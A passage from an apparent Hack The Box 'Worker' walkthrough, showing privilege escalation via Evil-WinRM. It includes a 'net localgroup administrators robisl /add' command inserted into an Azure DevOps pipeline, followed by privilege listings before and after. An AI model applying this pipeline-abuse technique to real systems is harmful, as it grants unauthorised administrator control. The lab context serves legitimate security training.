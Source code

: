 ```powershell

Privilege Name                Description                    State
============================= ============================== =======
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
*Evil-WinRM* PS C:\Users\robisl\Documents> 
```

There's not anything particularly interesting in the privileges.

## Privilege escalation 

When we login as robsil in the `devops.worker.htb` we are greeted with a different repo. It's also interesting to note that azure devops includes pipelines that execute code as administrator, and robisl has the ability to create a starter pipeline which we can include a command in it. I'll just put

```powershell
net localgroup administrators robisl /add
```

![](/assets/images/htb-writeup-worker/create_pipeline.png)

in the pipeline commands and that should make robisl an administartor

```powershell
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
```